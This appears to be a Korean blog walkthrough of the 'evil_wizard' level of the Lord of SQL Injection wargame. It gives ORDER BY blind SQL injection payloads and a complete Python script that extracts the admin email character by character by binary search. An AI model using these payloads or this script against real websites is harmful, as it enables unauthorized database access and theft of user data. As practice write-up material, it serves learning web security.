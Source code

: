 ```yaml
---
title: LOS - 24번 evil_wizard
category: Lord of SQL Injection
---
```


# [24] evil_wizard

## 문제

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FCPYrT%2FbtrocdvYsid%2FzK4XYNKw6I4J3h0KHsSM91%2Fimg.png">

## 풀이

소스 코드만 보면 이전 문제와 완전히 같다.

물론 같은 문제일리가 없으니 테이블 내부 데이터를 확인해본다.

<br>

다음은 order=1을 페이로드로 전달했을 때 볼 수 있는 테이블이다.

<br>

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FzuOin%2FbtrobVbqsuX%2FD1PiXYZI0jjLsIzxh6LbNk%2Fimg.png">

<br>

이번 문제는 id ASC로 정렬해도, score ASC로 정렬해도 그 결과가 같을 것임을 예상할 수 있다.

그렇다면 이번에는, if 조건문의 참/거짓에 따라 각각 "1 ASC"와 "1 DESC"를 반환해주면 될 것 같다.

<br>

그렇게 해주면 if문의 조건이 참인 경우,

admin 레코드가 위로 올라가게 되며, 이 경우 res.text에는 **50&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;rubiya** 가 포함될 것이다.

<br>

따라서, 전달해줄 페이로드는 다음과 같다.

<br>

[1] pw의 길이 찾기

```
?order=if(id='admin' and length(email)=[길이], '1 ASC', '1 DESC')
```
 
<br>

[2] 완전한 pw 찾기

```  
?order=if(id='admin' and ascii(substr(email,{len},1))=[아스키], '1 ASC', '1 DESC')
```
 
<br>

[3] 참 판별

```
if("50</td></tr><tr><td>rubiya" in res.text)
```

<br>

```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/evil_wizard_32e3d35835aa4e039348712fb75169ad.php"
    cookie = "tp0ja8gkvp5j75fm5lntqomope"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 24를 시작합니다")

for num in range(0,100):
    param=f"?order=if(id='admin' and length(email)={num}, '1 ASC', '1 DESC')"
    if("50</td></tr><tr><td>rubiya" in send(param)):
        print(f"👏 email의 길이는 {num}입니다!")
        break

ans=""

for len in range(1, num+1):
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        param=f"?order=if(id='admin' and ascii(substr(email,{len},1))>={middle}, '1 ASC', '1 DESC') %23"
        if("50</td></tr><tr><td>rubiya" in send(param)):
            param=f"?order=if(id='admin' and ascii(substr(email,{len},1))={middle}, '1 ASC', '1 DESC') %23"
            if("50</td></tr><tr><td>rubiya" in send(param)):
                print(f"{len}번째 문자 → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue

print(f"👏 email의 정체는 [{ans}]입니다!")
```
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FlPVPv%2FbtrobTraaKg%2FQ8ClrhC9pPGBea0pOv6n0K%2Fimg.png">
  
Blind 공격 결과, admin의 email은 `aasup3r_secure_email@emai1.com` 임을 알 수 있다.
  
## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FFRzmL%2Fbtrob7Qa1Vp%2FcNk6I956Im1KcsZugbp5E1%2Fimg.png">